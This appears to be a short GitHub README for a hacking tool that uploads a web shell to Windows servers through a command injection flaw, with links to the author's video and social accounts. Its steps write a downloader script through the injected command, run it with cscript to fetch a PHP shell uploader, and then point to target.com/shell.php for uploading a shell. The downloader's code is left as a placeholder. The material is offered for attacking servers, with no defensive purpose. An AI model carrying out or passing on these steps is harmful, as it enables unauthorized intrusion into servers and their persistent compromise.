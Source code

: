 # Windows Command injection Shell Uploader
Upload shell in windows server using command injection vulnerbility.

# Steps

* echo put wget.js file code here >weget.js
* cscript /nologo weget.js http://localhost/wci_shell_uploader.php

After those two commands your get shell uploader at http://target.com/shell.php go on this link & upload your shell or files.

# Video

[![Video](https://i.imgur.com/WjJJT7D.png)](https://youtu.be/H5F93uEK7ME)

> Youtube  : https://www.youtube.com/DigitalHackerOfficial
> Facebook : https://www.facebook.com/DigitalHackerOfficial
> Twitter  : https://twitter.com/Shehryar_DH
> Google+  : https://plus.google.com/+DigitalHacker
> Email    : digitalhacker07@gmail.com

